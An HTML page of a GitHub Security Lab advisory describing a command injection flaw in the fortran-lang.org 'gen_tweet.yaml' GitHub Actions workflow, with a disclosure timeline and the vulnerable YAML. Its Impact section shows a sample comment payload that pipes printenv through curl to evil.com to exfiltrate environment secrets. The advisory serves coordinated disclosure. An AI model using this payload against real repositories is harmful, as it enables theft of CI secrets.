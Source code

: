 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-190: Command injection in fortran-lang/fortran-lang.org workflow</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/16/2020: Report sent to vendor</li>
  <li>10/17/2020: Vendor acknowledges</li>
  <li>10/17/2020: Issue fixed</li>
</ul>

<h2 id="summary">Summary</h2>

<p>The <a href="https://github.com/fortran-lang/fortran-lang.org/blob/master/.github/workflows/gen_tweet.yaml">‘gen_tweet.yaml’ GitHub workflow</a> is vulnerable to arbitrary command injection.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/fortran-lang/fortran-lang.org">fortran-lang/fortran-lang.org GitHub repository</a></p>

<h2 id="tested-version">Tested Version</h2>

<p><a href="https://github.com/fortran-lang/fortran-lang.org/blob/master/.github/workflows/gen_tweet.yaml">gen_tweet.yaml</a> from the master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-the-public-github-issue-comment-is-used-to-format-a-shell-command">Issue: The public GitHub issue comment is used to format a shell command</h3>

<p>When a user comments on a Pull Request with a <code class="language-plaintext highlighter-rouge">#tweet</code> it automatically starts the <a href="https://github.com/fortran-lang/fortran-lang.org/blob/master/.github/workflows/gen_tweet.yaml">gen_tweet.yaml</a> GitHub workflow. The comment text is used to format a bash script.</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="na">tweet</span><span class="pi">:</span>
    <span class="na">runs-on</span><span class="pi">:</span> <span class="s">ubuntu-latest</span>
    <span class="na">if</span><span class="pi">:</span> <span class="s">github.event.issue.pull_request &amp;&amp; startsWith(github.event.comment.body,'#tweet')</span>
    <span class="na">steps</span><span class="pi">:</span>
<span class="nn">...</span>
    <span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">extract the new tweet message</span>
      <span class="na">id</span><span class="pi">:</span> <span class="s">get-comment-body</span>
      <span class="na">run</span><span class="pi">:</span> <span class="pi">|</span>
        <span class="s">body=$(echo "${{github.event.comment.body}}" | sed '1 s/#tweet//' | sed '1 s/ //')</span>
<span class="s">...</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script. For example a user may comment with <code class="language-plaintext highlighter-rouge">#tweet `printenv | curl -X POST --data-binary @- http://evil.com`</code> which will exfiltrate the environment variables to the attacker controlled server. To make the attack less visible the attacker may modify the comment later.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-190</code> in any communication regarding this issue.</p>
